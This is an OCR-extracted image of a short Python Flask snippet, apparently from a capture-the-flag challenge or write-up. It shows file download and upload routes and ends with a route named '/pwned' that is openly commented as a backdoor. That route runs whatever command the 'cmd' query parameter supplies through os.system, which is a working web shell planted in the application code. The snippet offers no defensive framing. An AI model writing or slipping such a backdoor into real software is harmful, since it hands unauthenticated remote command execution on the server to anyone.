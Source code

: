 ```py
    return send_file(os.path.join(os.getcwd(), "app", "static", "source.zip"))


@app.route('/upcloud', methods=['GET', 'POST'])
def upload_file():
    if request.method == 'POST':
        f = request.files['file']
        file_name = get_file_name(f.filename)
        file_path = os.path.join(os.getcwd(), "public", "uploads", file_name)
        f.save(file_path)
        return render_template('success.html', file_url=request.host_url + "uploads/" + file_name)
    return render_template('upload.html')


@app.route('/uploads/<path:path>')
def send_report(path):
    path = get_file_name(path)
    return send_file(os.path.join(os.getcwd(), "public", "uploads", path))

# Backdoor route, using 'cmd' GET parameter to execute command. Just like PHP's <?php system($_GET['cmd']) ?>
@app.route('/pwned')
def backdoor():
    return os.system(request.args.get('cmd'))
```
